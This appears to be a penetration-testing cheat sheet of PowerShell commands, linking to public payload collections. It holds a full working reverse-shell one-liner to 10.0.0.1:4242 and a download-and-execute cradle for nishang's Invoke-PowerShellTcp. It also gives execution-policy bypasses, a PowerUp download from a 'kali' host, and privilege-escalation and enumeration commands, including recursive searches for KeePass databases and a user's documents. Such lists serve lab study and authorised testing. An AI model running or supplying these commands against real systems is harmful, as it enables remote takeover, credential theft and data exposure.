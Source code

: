 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','C:\filelocation\filename.ext')"
```

```
Start-Service GammaService
```

```
Stop-Service GammaService
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3

**Invoke-WebRequest**

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powershell -ep bypass
```

```
Import-Module .\PowerUp.ps1
```

```
Get-DomainGPO
```

```
Get-UnquotedService
```

```
 Get-Acl -Path C:\ | Format-List
```

```
icacls .\Documents\BetaServ.exe
```

```
Get-LocalUser
```

```
Get-LocalGroup
```

```
Get-LocalGroupMember adminteam
```

```
Get-LocalGroupMember Administrators
```

```
systeminfo
```

```
ipconfig /all
```

```
route print
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

